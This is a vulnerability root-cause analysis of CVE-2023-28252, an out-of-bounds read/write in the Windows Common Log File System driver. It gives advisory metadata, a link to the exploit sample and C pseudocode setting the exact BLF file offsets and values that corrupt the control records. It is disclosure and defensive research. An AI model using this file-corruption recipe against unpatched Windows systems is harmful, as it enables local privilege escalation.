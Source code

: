 # CVE-2023-28252: Windows Common Log File System Driver Elevation of Privilege Vulnerability
*Genwei Jiang, FLARE OTF*

## The Basics

**Disclosure or Patch Date:** April 11, 2023

**Product:** Windows

**Advisory:** https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2023-28252

**Affected Versions:** Before security updates of April 11, 2023, for Windows 10, 11 and Windows Server 2008, 2012, 2016, 2019, 2022

**First Patched Version:** Security updates of April 11, 2023, for CVE-2023-28252

**Issue/Bug Report:** MSRC-78564

**Patch CL:** N/A

**Bug-Introducing CL:** N/A

**Reporter(s):** Boris Larin (oct0xor) with Kaspersky, Genwei Jiang with FLARE OTF of Google Cloud + Mandiant, Quan Jin with DBAPPSecurity WeBin Lab

## The Code

**Proof-of-concept:** See exploit sample

**Exploit sample:** https://www.virustotal.com/gui/file/018c464676b4a71be83bc073f482e94a4850e9c24abe4c4ed1285258ca95a21e

**Did you have access to the exploit sample when doing the analysis?** Yes

## The Vulnerability

**Bug class:** Out-Of-Bound Read/Write

**Vulnerability details:**
An Out of bound(OOB) read and write vulnerability exists in `CClfsBaseFilePersisted::ExtendMetadataBlock` and `CClfsBaseFilePersisted::WriteMetadataBlock` when parsing a malformed `BLF` file. The malformed `BLF` file is constructed similar to the pseudo code of following, that the fields of `ControlRecordShadow.iExtendBlock` and `ControlRecordShadow.iFlushBlock` both set as `0x13`, this leads to out of bound read in `CLFS!CClfsBaseFilePersisted::ExtendMetadataBlock` and `CLFS!CClfsBaseFilePersisted::WriteMetadataBlock`.
```c
    // params: blf path, offset, value, size
    WriteFileAt(blf_ext, 0x484,  0x2,   4);   // ControlRecordShadow.eExtendState == ClfsExtendStateFlushingBlock
    WriteFileAt(blf_ext, 0x488,  0x13,  2);   // ControlRecordShadow.iExtendBlock
    WriteFileAt(blf_ext, 0x48a,  0x13,  2);   // ControlRecordShadow.iFlushBlock
    WriteFileAt(blf_ext, 0x84,   0x2,   4);   // ControlRecord.eExtendState == ClfsExtendStateFlushingBlock
    WriteFileAt(blf_ext, 0x88,   0x4,   2);   // ControlRecord.iExtendBlock
    WriteFileAt(blf_ext, 0x8a,   0x4,   2);   // ControlRecord.iFlushBlock
    WriteFileAt(blf_ext, 0x90,   0x1,   4);   // ControlRecord.cExtendStartSectors == 1
    WriteFileAt(blf_ext, 0x94,   0x3,   4);   // ControlRecord.cExtendSectors == 3
    WriteFileAt(blf_ext, 0x9c,   0x2,   4);   // ControlRecord.cxTruncate.cClients == 2
    WriteFileAt(blf_ext, 0x70,   0x2,   4);   // ControlRecord.hdrControlRecord.ullDumpCount == 2
    WriteFileAt(blf_ext, 0x6,    0x1,   2);   // ControlRecordHeader.ValidSectorCount == 1
```
